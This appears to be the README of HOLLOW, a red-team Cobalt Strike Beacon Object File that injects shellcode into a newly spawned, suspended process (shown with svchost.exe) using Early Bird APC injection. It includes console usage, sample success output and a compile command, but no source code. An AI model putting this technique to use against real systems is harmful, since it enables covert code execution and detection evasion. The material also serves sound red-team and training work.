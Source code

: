 ## HOLLOW - Cobalt Strike BOF
##### Authors:
+ Bobby Cooke ([@0xBoku](https://twitter.com/0xBoku))
+ Justin Hamilton ([@JTHam0](https://twitter.com/JTHam0))
+ Octavio Paguaga ([@OakTree__](https://twitter.com/OakTree__))
+ Matt Kingstone ([@n00bRage](https://twitter.com/n00bRage))

Beacon Object File (BOF) that spawns an arbitrary process from beacons memory in a suspended state, inject shellcode, hijack main thread with APC, and execute shellcode; using the Early Bird injection method taught by @SEKTOR7net in RED TEAM Operator: Malware Development Intermediate.
- [Sektor7 RED TEAM Operator: Malware Development Intermediate Course](https://institute.sektor7.net/courses/rto-maldev-intermediate/463257-code-injection/1435343-earlybird)

![](/images/poc.png)

### Run from Cobalt Strike Beacon Console
+ After compile import the hollow.cna script into Cobalt Strikes Script Manager
```bash
beacon> help hollow
Synopsis: hollow /path/to/hollow/pe /local/path/to/shellcode.bin
beacon> hollow svchost.exe /Users/bobby.cooke/popCalc.bin
[*] HOLLOW - EarlyBird Remote Process Shellcode Injector (@0xBoku|github.com/boku7) | (@JTHam0|github.com/Rodion0)
[*]             (@n00bRage|github.com/josephkingstone) | (@OakTree__|github.com/git-oaktree)
[*] Reading shellcode from: /Users/bobby.cooke/popCalc.bin
[+] Success - Spawned process for svchost.exe at 5464 (PID)
[+] Success - Allocated RE memory in remote process 5464 (PID) at: 0x000001A83BEC0000
[+] Success - Wrote 280 bytes to memory in remote process 5464 (PID) at 0x000001A83BEC0000
[+] Success - APC queued for main thread of 5464 (PID) to shellcode address 0x000001A83BEC0000
[+] Success - Your thread was resumed and your shellcode is being executed within the remote process!
```

### Compile with x64 MinGW (only tested from macOS):
```bash
x86_64-w64-mingw32-gcc -c hollow.x64.c -o hollow.x64.o
```

### To Do List
+ Refactor code to make it more modular/clean
+ Implement this into github.com/boku7/SPAWN
  - Combine this with the PPID spoofing and blockdll features of SPAWN

### Credits / References
+ Credit/shoutout to: @SEKTOR7net + Raphael Mudge
##### Sektor7 Malware Dev Essentials course - learned how to do the early bird injection technique
+ https://institute.sektor7.net/red-team-operator-malware-development-essentials
##### Raphael Mudge - Beacon Object Files - Luser Demo
+ https://www.youtube.com/watch?v=gfYswA_Ronw
##### Cobalt Strike - Beacon Object Files
+ https://www.cobaltstrike.com/help-beacon-object-files
##### BOF Code References
+ https://github.com/odzhan/injection/blob/master/syscalls/inject_dll.c
+ https://github.com/ajpc500/BOFs/blob/main/SyscallsInject/entry.c
+ https://github.com/ajpc500/BOFs/blob/main/SyscallsInject/syscalls_inject.cna

